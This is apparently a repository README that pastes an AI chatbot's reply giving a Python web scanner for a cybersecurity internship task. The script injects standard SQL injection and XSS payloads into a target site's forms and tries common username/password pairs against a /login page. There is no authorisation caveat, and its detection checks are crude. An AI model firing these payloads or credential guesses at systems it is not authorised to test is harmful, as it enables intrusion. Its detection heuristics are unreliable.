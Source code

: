 # Web-application-penetration-tester
---

Got it! 🔥  
You want a *full Python script* that performs *Web Application Penetration Testing* — targeting:

- *SQL Injection (SQLi) Detection* ✅
- *Cross-Site Scripting (XSS) Detection* ✅
- *Weak Authentication Testing* ✅

---

# 🛡 FULL CODE: WEB APPLICATION PENETRATION TESTER (Python)

Here’s a *full working script* you can submit for your *Prodigy InfoTech Internship Task*:

python
import requests
import sys
from urllib.parse import urljoin

# List of common SQL Injection payloads
sql_payloads = [
    "' OR '1'='1",
    "' OR '1'='1' -- ",
    "' OR '1'='1' /*",
    "' OR 1=1 -- ",
    "' OR 1=1#",
    "' OR 1=1/*"
]

# List of common XSS payloads
xss_payloads = [
    "<script>alert('XSS')</script>",
    "'><script>alert('XSS')</script>",
    "\"><script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
]

def test_sql_injection(url, forms):
    print("\n[*] Testing for SQL Injection vulnerabilities...")
    for form in forms:
        action = form.get("action")
        method = form.get("method", "get").lower()
        inputs = form.get("inputs")

        for payload in sql_payloads:
            data = {}
            for input_tag in inputs:
                data[input_tag.get("name")] = payload

            form_url = urljoin(url, action)

            if method == "post":
                res = requests.post(form_url, data=data)
            else:
                res = requests.get(form_url, params=data)

            if "error" in res.text.lower() or "sql" in res.text.lower():
                print(f"[+] Potential SQL Injection vulnerability detected at {form_url}")
                print(f"    Payload: {payload}")
                break

def test_xss(url, forms):
    print("\n[*] Testing for Cross-Site Scripting (XSS) vulnerabilities...")
    for form in forms:
        action = form.get("action")
        method = form.get("method", "get").lower()
        inputs = form.get("inputs")

        for payload in xss_payloads:
            data = {}
            for input_tag in inputs:
                data[input_tag.get("name")] = payload

            form_url = urljoin(url, action)

            if method == "post":
                res = requests.post(form_url, data=data)
            else:
                res = requests.get(form_url, params=data)

            if payload in res.text:
                print(f"[+] Potential XSS vulnerability detected at {form_url}")
                print(f"    Payload: {payload}")
                break

def test_authentication(url):
    print("\n[*] Testing for Insecure Authentication (Common Weak Logins)...")
    common_usernames = ["admin", "test", "root", "user"]
    common_passwords = ["admin", "password", "123456", "root", "test"]

    login_url = urljoin(url, "/login")  # assuming /login endpoint

    for username in common_usernames:
        for password in common_passwords:
            data = {"username": username, "password": password}
            try:
                response = requests.post(login_url, data=data, timeout=5)
                if "invalid" not in response.text.lower() and response.status_code == 200:
                    print(f"[+] Weak credentials found: {username}:{password}")
                    return
            except Exception as e:
                continue
    print("[-] No weak credentials found.")

def get_forms(url):
    from bs4 import BeautifulSoup

    try:
        res = requests.get(url)
        parsed_html = BeautifulSoup(res.text, "html.parser")
        forms = []

        for form in parsed_html.find_all("form"):
            details = {}
            action = form.attrs.get("action")
            method = form.attrs.get("method", "get")
            inputs = []
            for input_tag in form.find_all("input"):
                input_name = input_tag.attrs.get("name")
                input_type = input_tag.attrs.get("type", "text")
                inputs.append({"name": input_name, "type": input_type})
            details['action'] = action
            details['method'] = method
            details['inputs'] = inputs
            forms.append(details)
        return forms
    except Exception as e:
        print(f"[-] Error getting forms: {e}")
        return []

def main():
    print("\n=== Web Application Penetration Tester ===\n")
    target_url = input("Enter the target URL (e.g., http://example.com): ").strip()

    if not target_url.startswith("http"):
        print("[-] Invalid URL. Please include http:// or https://")
        sys.exit()

    print(f"\n[+] Target: {target_url}")

    forms = get_forms(target_url)

    if forms:
        print(f"[+] Found {len(forms)} forms on the page.")
    else:
        print("[-] No forms found.")

    test_sql_injection(target_url, forms)
    test_xss(target_url, forms)
    test_authentication(target_url)

    print("\n[+] Testing completed.")

if __name__ == "__main__":
    main()


---

# 📂 Folder Structure to Upload

You should create this structure for GitHub:


PRODIGY_CS_05/
│
├── webapp_penetration_tester.py    <-- (this script)
├── README.md                       <-- (basic instructions)
└── example_run_output.png          <-- (screenshot running the script)


---

# 📜  README.md

markdown
# Web Application Penetration Tester

A simple penetration testing tool built for Prodigy InfoTech Internship (Cyber Security Track).

## Features
- SQL Injection Detection
- Cross-Site Scripting (XSS) Detection
- Insecure Authentication Testing

## How to Use
Install dependencies:

pip install requests beautifulsoup4


Run the script:

python webapp_penetration_tester.py


Input the target URL (example: `http://testphp.vulnweb.com/`).

## Example
- Finds SQL Injection vulnerabilities by testing forms.
- Detects XSS vulnerabilities.
- Checks for weak username/password combinations.

---


---

# ⚡ Requirements

Install missing libraries if you don't have them:

pip install requests beautifulsoup4


---

---

# 🚀 Bonus Tip (for Extra Marks)

You can add *command-line arguments* using argparse to make it even cooler!

Example:


python webapp_penetration_tester.py --url http://example.com

---
